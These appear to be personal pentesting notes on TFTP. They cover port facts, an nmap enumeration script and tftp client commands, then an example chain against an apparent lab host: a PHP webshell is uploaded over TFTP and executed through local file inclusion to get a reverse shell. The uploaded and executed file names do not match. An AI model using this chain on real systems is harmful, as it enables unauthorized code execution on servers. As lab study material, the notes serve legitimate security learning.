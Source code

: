 ## Intro
TFTP uses port 69/udp to establish the initial connection. The client and server then negotiate other ports for the data transfer process. 
FTP typically uses port 20/tcp (data) and 21/tcp (management), depending on its mode. 

## Detection with Nmap
```
sudo nmap -sU -p 69 --script tftp-enum <IP>
```

## tftp
```
# connect to tftp server
tftp <IP>

# THERE IS NO COMMAND TO LIST FILES

# Once connected, you can use the get command to download a file:
tftp> get config.txt

# To upload a file, you can use the put command:
tftp> put localfile.txt

# Finally, to exit the TFTP client, use the quit command:
tftp> quit
```
So TFTP can be abused to upload malicious file e.g. webshell and the abuse it with e.g. LFI.

## Example
```
# connect to tftp server and upload simple webshell
tftp <IP>
put shell.php

# Abuse LFI to learn where the files are stored
http://10.129.95.185/?file=/etc/default/tftpd-hpa
Result: # /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/var/lib/tftpboot" TFTP_ADDRESS=":69" TFTP_OPTIONS="-s -l -c"

# So files are stored here: /var/lib/tftpboot
# Let's abuse the LFI again to execute the webshell
http://10.129.95.185/?file=/var/lib/tftpboot/new_shell.php

# And we get reverse shell on our nc listener!
```
